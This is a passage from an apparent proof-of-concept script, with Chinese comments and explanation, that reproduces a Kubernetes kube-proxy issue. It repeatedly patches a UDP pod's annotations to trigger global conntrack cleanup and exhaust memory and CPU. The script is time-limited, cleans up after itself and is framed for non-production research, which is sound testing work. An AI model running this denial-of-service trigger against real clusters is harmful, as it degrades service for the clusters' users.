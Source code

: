 ```python
    try:
        v1.delete_namespace(name=NAMESPACE)
        print(f"Namespace {NAMESPACE} 删除中...")
    except ApiException as e:
        print("删除 Namespace 失败：", e)

def main():
    try:
        # 加载默认的 kubeconfig
        config.load_kube_config()
    except Exception as e:
        print("加载 kubeconfig 失败，请确保文件在默认位置", e)
        return

    v1 = client.CoreV1Api()

    try:
        create_namespace(v1)
        create_udp_pod(v1)
        wait_for_pod_running(v1)
    except Exception:
        traceback.print_exc()
        return

    # 开始进行 Pod 更新操作，每次更新会改变 Pod 的 annotations，模拟UDP Pod更新事件，从而触发 kube-proxy 的全局 conntrack cleanup
    start_time = time.time()
    try:
        while time.time() - start_time < EXECUTION_TIMEOUT:
            patch_pod_annotation(v1)
            # 每 5 秒进行一次更新，适当调节更新频率
            time.sleep(5)
    except Exception:
        traceback.print_exc()
    finally:
        try:
            delete_namespace(v1)
        except Exception:
            traceback.print_exc()
        print("复现脚本执行完毕。")

# 直接调用 main 函数
main()
```


**解释说明：**

1. 脚本首先加载默认位置的 kubeconfig，通过 python 的 kubernetes 客户端操作集群。
2. 创建新的命名空间（poc-dos-test），以防止对现有命名空间造成干扰。
3. 在该命名空间中创建一个名为 udp-pod-dos 的 Pod，此 Pod 使用 busybox 镜像并指定了 UDP 端口（例如 53 端口）。
4. 脚本等待 Pod 进入 Running 状态后，进入主循环。在主循环中，每隔 5 秒通过 patch 操作更新 Pod 的 annotation，从而模拟 Pod 更新事件。根据 issue 的描述，每次此事件都会触发 kube-proxy 对整个 conntrack 表进行清理，从而可能带来高内存和 CPU 消耗。
5. 整个操作在 2 分钟内执行完毕，避免脚本陷入死循环。最后清理创建的命名空间，确保不会对集群留下残留资源。
6. 此复现脚本仅用于研究和本地测试，务必在非生产环境中验证！

---